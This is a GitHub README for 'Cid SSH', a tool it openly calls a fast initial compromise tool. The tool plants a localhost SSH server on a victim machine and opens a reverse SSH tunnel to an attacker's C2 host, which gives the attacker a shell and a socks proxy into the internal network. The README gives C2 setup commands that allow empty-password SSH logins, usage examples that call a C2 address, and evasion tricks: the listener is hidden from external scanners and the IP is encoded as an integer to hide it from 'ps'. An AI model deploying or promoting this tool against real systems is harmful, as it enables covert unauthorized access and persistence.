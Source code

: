 # Cid SSH
![alt text](http://equestrianstatue.org/wp-content/uploads/2016/04/Spain-Burgos-El-Cid-4-525x394.jpg)

Let's face it, there is no better shell than SSH. It just not only provides a rich encrypted shell communication but it can be used to create a socks proxy to browse the internal network of a system.

**CidSSH** is a statically compiled tool (no dependencies needed) that can be used to create an SSH server and a SSH client within just one binary. It will firstly, create RSA certificates, spin up an SSH server (listening in `localhost` and by default on port 2222),and finally create a reverse SSH tunnel with a C2 host specify by command lone. Due to the fact that the SSH server listens at `localhost`, external scanners won't detect it. 

This tool can be used as a fast initial compromise tool that can be used not only as a shell but also to browse the internal network of the victim. 

Windows systems lack of a proper TTY but thanks to [this](https://blogs.msdn.microsoft.com/commandline/2018/08/02/windows-command-line-introducing-the-windows-pseudo-console-conpty/) we can in recent Windows versions get a fully functional TTY. In the case that the target system does not support `CreatePseudoConsole` it will downgrade to a simple, not interactive shell.


## Setup instructions
### C2 server
We need to properly configure the SSH server running at the C2 so we don't get hacked.

Run all of these commands:

```
sudo useradd anonymous
echo anonymous:U6aMy0wojraho | sudo chpasswd -e
sudo usermod -s /bin/false anonymous # change /bin/false to /path/to/Cid-Controller to use Cid-Controller
```

Allow blank passwords for SSH sessions for the `anonymous` user and restrict `anonymous` user to allow only reverse port forwarding:

```
sudo cat <<EOT >> /etc/ssh/sshd_config
PermitEmptyPasswords yes
ClientAliveInterval 120
ClientAliveCountMax 3

Match User anonymous
   AllowTcpForwarding remote
   X11Forwarding no
   PermitTunnel no
   GatewayPorts no
   AllowAgentForwarding no
   AllowStreamLocalForwarding no
EOT
```

Restart sshd:
```sudo systemctl restart ssh```

### Prebuilt binaries
You can just use the prebuilt binaries that are in [Release](https://github.com/RedRangerz/Cid-SSH/releases). They are ready to roll.

If you want to compile from source keep reading below.

## Using it

Defaults: user is `anonymous` and default `LOCAL_SSH_SERVER_PORT` is 2222

Syntaxis:

`Cid-SSH.exe [user@]C2_hostname [LOCAL_SSH_SERVER_PORT]`

Examples:
```
Cid-SSH.exe 192.168.15.135
Cid-SSH.exe user@192.168.15.135
Cid-SSH.exe -t 3232239495
```

You could also specify the IP address as an integer so it's not that obvious if `ps` is run:
```
Cid-SSH.exe -t 3232239495
```
Page to do the conversion: http://www.aboutmyip.com/AboutMyXApp/IP2Integer.jsp

## Compilation

You can find more info about compilation [here](COMPILATION.md)

## Authors
- Alberto Garcia Illera (alberto.garcia@getcruise.com)
- Francisco Oca (foca@getcruise.com)
- Bert JW Regeer (bert.regeer@getcruise.com)
